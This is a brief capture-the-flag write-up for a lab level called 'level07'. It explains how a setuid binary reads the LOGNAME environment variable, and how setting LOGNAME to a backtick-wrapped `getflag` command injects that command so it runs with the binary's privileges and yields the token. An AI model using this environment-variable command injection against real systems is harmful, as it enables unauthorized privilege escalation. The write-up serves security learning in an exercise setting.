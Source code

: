 `ls -l` </br>
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07

We have a binary, if we do `strings` we can see it gets the environment variable LOGNAME </br>
`In computer software, logname (stands for Login Name) is a program in Unix and Unix-like operating systems that prints the name of the user who is currently logged in on the terminal. It usually corresponds to the LOGNAME variable in the system-state environment (but this variable could have been modified).` </br>
https://en.wikipedia.org/wiki/Logname

We can modify this variable to `getflag` </br>
https://book.hacktricks.xyz/pentesting-web/command-injection

```export LOGNAME=\`getflag\` ```</br>
then
`./level07` </br>
Gives the token.
